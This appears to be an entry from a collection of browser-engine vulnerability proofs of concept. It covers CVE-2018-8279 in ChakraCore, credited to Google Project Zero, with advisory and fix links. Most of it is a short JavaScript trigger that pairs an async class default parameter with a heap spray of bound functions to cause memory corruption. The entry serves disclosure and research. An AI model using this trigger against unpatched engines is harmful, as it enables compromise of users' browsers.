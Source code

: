# CVE-2018-8279

- Fix: Aug 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
async function trigger(a = class b {
    [await 1]() {
    }
}) {
}

let spray = [];
for (let i = 0; i < 100000; i++) {
    spray.push(parseFloat.bind(1, 0x1234, 0x1234, 0x1234, 0x1234));
}

trigger();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8279)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1570)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/227fc37d08fe2ece769345ee59153bf179686089)

